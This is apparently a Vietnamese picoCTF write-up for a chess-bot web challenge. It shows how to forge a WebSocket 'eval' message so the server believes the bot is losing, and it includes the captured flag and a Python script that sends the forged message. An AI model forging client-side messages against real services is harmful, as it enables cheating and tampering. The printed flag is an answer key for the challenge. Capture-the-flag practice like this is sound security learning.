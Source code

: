 # Overview 
Category: [Web Exploitation]()

AUTHOR: Venax

# Description
Can you win in a convincing manner against this chess bot? He won't go easy on you! 

# Solution
- Đây là một ứng dụng chơi cờ vua trong trình duyệt, sử dụng Stockfish (một engine cờ vua mạnh) và WebSocket để giao tiếp thời gian thực với một server

![](./image/2025-05-05_22-33.png)

- Đoạn code sử dụng websocket để gửi , update thông báo :

![](./image/2025-05-05_22-38.png)

- Các gói tin WebSocket có 2 loại định dạng:

"eval [số]" → đánh giá vị trí hiện tại.

"mate [số]" → thông báo chiếu hết.

![](./image/2025-05-05_22-47.png)

- Bắt gói tin ws ta thấy , thông báo sẽ được hiển thị sau mỗi nước đi dựa vào eval 

![](./image/2025-05-05_22-41.png)

- Ta thấy rằng nó bắt đầu bằng Eval 0 khi chúng ta thực hiện bước đầu tiên và khi chúng ta bắt đầu mất tướng, có lẽ con số càng lớn, điều đó có nghĩa là sự tự tin càng cao mà Stockfish nghĩ rằng nó đang chiến thắng

- Ý tưởng sẽ là làm cho eval này trở thành số âm lớn để Stockfish nghĩ rằng nó đang thua đậm và đầu hàng 

- Thực hiện chỉnh ws trong console: 

![](./image/2025-05-05_22-54.png)

- Và bot đã nghĩ mình thua và đã trả flag:

![](./image/2025-05-05_22-56.png) 

>Flag : **picoCTF{c1i3nt_s1d3_w3b_s0ck3t5_a2a9bbe9}**

- Bonus : có thể viết script để tự động 
```python 
import websocket

ws_url = "ws://verbal-sleep.picoctf.net:61344/ws/"

def on_open(ws):
    print("[+] Connected to WebSocket Server")
    ws.send("eval -99999999")
    
# Hàm callback khi nhận được tin nhắn từ WebSocket
def on_message(ws, message):
    print(f"[Server]: {message}")

def on_error(ws, error):
    print(f"Error: {error}")

def on_close(ws, close_status_code, close_msg):
    print("[+] Connection Closed")

ws = websocket.WebSocketApp(ws_url,
                            on_open=on_open,
                            on_message=on_message,
                            on_error=on_error,
                            on_close=on_close)

ws.run_forever()
```

![](./image/2025-05-05_23-02.png) 